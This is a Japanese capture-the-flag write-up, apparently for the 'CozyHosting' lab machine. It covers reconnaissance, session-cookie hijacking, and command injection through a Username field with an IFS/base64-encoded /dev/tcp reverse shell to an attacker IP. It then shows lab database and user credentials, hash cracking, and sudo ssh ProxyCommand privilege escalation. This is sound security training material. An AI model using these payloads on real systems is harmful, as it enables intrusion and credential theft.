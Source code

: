 
#### nmap
![](../images/20230908201102.png)

/etc/hostsに「cozyhosting」を登録

![](../images/20230908201244.png)
webにアクセスしてみる
![](../images/20230908201411.png)

ログインページにがあるがクレデンシャルがわからない
![](../images/20230908201634.png)

dirsearchでディレクトリを検索

![](../images/20230908201749.png)

「/actuator/sessions」にアクセスするとcookieの値がでるのでウェブ開発ツールのストレージから値を変更してユーザー名とパスワードを適当に入れるとするとログインできる
![](../images/20230908202427.png)
![](../images/20230908202842.png)

「Hostname」と「Username」を適当に入れてBurpで受信してみる
![](../images/20230908203142.png)


sshの文字が見える
試しにUsernameを空で送信してみる

![](../images/20230908203424.png)

sshのエラーが帰ってきている
コマンドインジェクションの脆弱性の可能性がある

```shell
;echo $ { IFS } "[ PAYLOAD ]" | base64 $ { IFS }-d | bash;
```

「Username」に
```shell
/bin/bash -i >& /dev/tcp/10.10.14.11/9001 0>&1
```
をbase64に変換して送るとリバースシェルが獲れる
```shell
;echo$(IFS)"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExLzkwMDEgMD4mMQ=="|base64$(IFS)-d|bash
```

![](../images/20230908204741.png)
>IFSは空白やタブを意味する

python3でシェルを安定化する
![](../images/20230908205054.png)

ホームディレクトリに「cloudhosting-0.0.1.jar」ファイルがあるのでローカルにダウンロードする

![](../images/20230908205601.png)

「.jar」はzipと同じ圧縮形式なので「unzip」で解凍する
![](../images/20230908205727.png)

/etc/passwdから「josh」とゆうユーザーが要ることが分かる
![](../images/20230908210045.png)

解凍してできた物の中にposgresqlのクレデンシャルがある
「BOOT-INF/classes/application.properties」
![](../images/20230908210514.png)

ターゲット側でpostgresqlに接続する
**psql "postgresql:// $ DB_USER:$ DB_PWD @ $ DB_SERVER / $ DB_NAME"**

```shell
psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"
```

「\\list」ですべてのデータベースを表示
![](../images/20230908211122.png)

「\\c cozyhosting」でデータベースの切り替え
「\\d」ですべてのテーブル表示
![](../images/20230908211503.png)

SELECT文でテーブルの中を表示
![](../images/20230908211619.png)

ハッシュが取得できたのでjohnで解析
![](../images/20230908211848.png)
Username:josh
Password:manchesterunited

取得したクレデンシャルでSSH接続を実施
![](../images/20230908212105.png)

#### 特権昇格
「sudo -l」で確認すると
![](../images/20230908212245.png)

sshで特権昇格できそうなのでGTFOBINで調べる

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![](../images/20230908212530.png)
